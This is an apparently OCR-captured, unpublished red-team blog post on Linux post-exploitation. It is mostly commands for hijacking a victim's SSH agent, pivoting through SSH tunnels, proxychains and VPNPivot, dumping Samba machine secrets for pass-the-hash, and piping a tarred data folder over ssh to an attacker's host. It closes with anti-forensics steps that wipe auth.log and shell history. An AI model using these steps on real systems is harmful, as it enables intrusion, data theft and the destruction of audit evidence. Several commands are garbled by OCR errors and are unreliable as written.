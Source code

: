 ```yaml
---
layout: post
published: false
title: Linux Post Exploitation 10.4
---
```

## Linux Lateral Movement And Exfiltration & more.


## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking*

In order for this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

``
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can login to remote systems as the victim
ssh remote_system -l vicitm
``

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 ,forward to attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunnelling

``
https://github.com/sshuttle/sshuttle
``

**Proxychains**

ProxyChains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal hosts services and internal network.

**VPNPivot**
VPN Pivot sends and receive a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured.

Installation

``
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
``
**Usage :**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
``
The options are :

    server IP : the IP address of the server (pivots)
    
    server port : the port which the server is listening on
    
    locale IP : the IP address of the network interface connected to the unreachable network.
    
    MTU	: the MUT is optional unless you're changing it in pivots
``




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in domain we can compromise it using pass the hash technic.

I will explain pass the hash in upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from target machine, and owning that data to see severity.

There are many techniques to move data from target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing  hands, after did a sin. 

Clear auth.log file
``
echo "" /var/log/auth.log
``
Clear current user bash history
``
echo "" -/.bash history
``
Delete .bash_history file
``
rm -/.bash histor/ -rf
``
Clear current session history
``
history -c
``
Set history max lines to 0
``
export HISTFILESIZE=O
``
Set histroy max commands to 0
``
export HISTSIZE=O
``
To kill current session
``
kill -9 $$
``
To perrnanently send all bash history commands to /dev/null
``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practise.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistance in upcoming red team series.**_










































